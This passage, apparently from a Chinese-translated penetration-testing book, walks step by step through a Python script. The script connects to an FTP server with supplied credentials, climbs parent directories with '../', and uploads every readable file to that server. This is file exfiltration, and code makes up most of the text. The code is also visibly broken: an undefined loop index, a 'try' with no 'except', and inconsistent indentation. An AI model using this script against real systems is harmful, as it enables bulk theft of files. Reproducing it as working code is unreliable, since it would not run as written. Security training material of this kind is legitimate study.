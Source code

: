 然后我们使用 IP 地址和通过标志设置的凭据连接到我们的 FTP。您还可以将 IP 作为`sys.argv`传递，以避免硬编码：

```py
ftp = FTP("127.0.0.1", user, pw)
```

我设置了一个 nonce 值，它与目录检查方法的第一个目录不匹配。我们还将循环设置为`0`，并将"上一个目录"命令配置为一个变量，类似于第三章中的目录遍历脚本，*漏洞识别*：

```py
filescheck = "aa"

loop = 0
up = "../"
```

然后我们创建我们的主循环以永远重复并创建我们选择的目录调用。我们列出我们调用的目录中的文件并将其分配给一个变量。您可以选择在这里打印文件列表，如我所做的那样，以进行诊断目的，但这没有任何区别：

```py
while 1:
  files = os.listdir("./"+(i*up))
  print files
```

对于在目录中检测到的每个文件，我们尝试打开它。重要的是我们用`rb`打开文件，因为这允许它作为二进制文件读取，使其可以作为二进制文件传输。如果可以打开，我们使用`storbinary`命令将其传输到 FTP。然后我们关闭文件以完成交易：

```py
  try:
      fiile = open(f, 'rb')
      ftp.storbinary('STOR ftpfiles/00'+str(f), fiile)
      fiile.close()
```

如果由于任何原因我们无法打开或传输文件，我们只需继续到列表中的下一个文件：

```py
  else:
      pass
```

然后我们检查是否自上次命令以来改变了目录。如果没有，我们就跳出主循环：

```py
if filescheck == files:
    break
```

如果目录列表不匹配，我们将`filecheck`变量设置为匹配当前目录，通过`1`迭代循环，并休眠`10`秒以避免向服务器发送垃圾邮件：

```py
else:
    filescheck = files
    loop = loop+1
    time.sleep(10)
```

最后，一切都完成后，我们关闭与 FTP 服务器的连接：

```py
ftp.close()
```

